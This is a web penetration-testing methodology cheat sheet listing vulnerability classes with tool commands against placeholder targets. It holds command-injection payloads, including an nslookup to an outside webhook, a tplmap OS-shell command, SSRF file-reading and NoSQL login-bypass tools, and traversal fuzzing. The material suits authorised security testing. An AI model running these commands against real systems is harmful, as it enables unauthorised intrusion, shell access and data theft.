 # Methodology

## Proxies
- 🔴 __Abusing hop-by-hop headers__
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- 🔴 __Cache Poisoning/Cache Deception__
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- 🔴 __HTTP Request Smuggling__ 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- 🔴 __H2C Smuggling__
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- 🔴 __Server Side Inclusion/Edge Side Inclusion__ (Detected by 👉 Burp Active Scanner)
- 🔴 __Uncovering Cloudflare__
- 🔴 __XSLT Server Side Injection__

## User input
### Reflected Values
- 🔴 __Client Side Template Injection__ (Like SSTI)
- 🔴 __Command Injection__
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- 🔴 __CRLF__
```
// Tool crlfuzz
crlfuzz -u <url>
```
- 🔴 __Dangling Markup__
- 🔴 __File Inclusion/Path Traversal__ (Detected by 👉 Burp Active Scanner)
```
// Fast Fuzzing
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
// Deep Fuzzing (recommend)
wfuzz -X GET -c -w file_inclusion_linux.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
wfuzz -X POST -c -w file_inclusion_linux.txt --hw 0 -d "foo=FUZZ" http://10.10.10.10/nav.php
```
- 🔴 __Open Redirect__ (Detected by 👉 Burp Active Scanner)
- 🔴 __Prototype Pollution to XSS__ (NodeJS)
- 🔴 __Server Side Inclusion/Edge Side Inclusion__ (Detected by 👉 Burp Active Scanner)
- 🔴 __Server Side Request Forgery__
```
// Tool See-SURF (Test vulnerable parameter)
python3 see-surf.py -H <HOST> -b <BURP> -t 10

// Tool SSRFmap
python3 ssrfmap.py -r <REQFILE> -p <PARAM> -m readfiles,portscan

// Tool Gopherus (SSRF to RCE)
https://github.com/tarunkant/Gopherus
```
- 🔴 __Server Side Template Injection__ (Detected by 👉 Burp Active Scanner)
```
// Tool tplmap
python2 tplmap.py -u 'http://10.10.10.10/page?name=Box*' --os-shell
```
- 🔴 __Reverse Tab Nabbing__ (Detected by 👉 Burp Extension - Discover Reverse Tabnabbing)
- 🔴 __XSLT Server Side Injection__ (🔼 previous step)
- 🔴 __XSS__ (Detected by 👉 Burp Active Scanner)
```
// Tool DalFox
dalfox url http://10.10.10.10/?search=a -p search

// Tool XSStrike
python3 xsstrike.py -u "http://10.10.10.10/?search=a"
```
- 🔴 __XSSI__ (Detected by 👉 Burp Extension - Detect Dynamic JS_
- 🔴 __XS-Search__

### Search functionalities
- 🔴 __File Inclusion/Path Traversal__ (🔼 previous step)
- 🔴 __NoSQL Injection__
```
// Tool Nosql injection username and password enumeration script
python3 nosqli-user-pass-enum.py -h

// NoSQL-Attack-Suite
python3 nosql-login-bypass.py -h
```
- 🔴 __LDAP Injection__
```
// Fuzzing
https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_FUZZ.txt
```
- 🔴 __ReDoS__
```
Regular Expression Denial of Service
// Tools
https://github.com/doyensec/regexploit
https://devina.io/redos-checker
```
- 🔴 __SQL Injection__
```
// Tool SQLmap
sqlmap -u <URL> -p <TESTPARAMETER> --threads=10 --risk=3 --level=5 --dbms=<DBMS> --banner
```
- 🔴 __XPATH Injection__
```
// Tool XCat
xcat --help
```
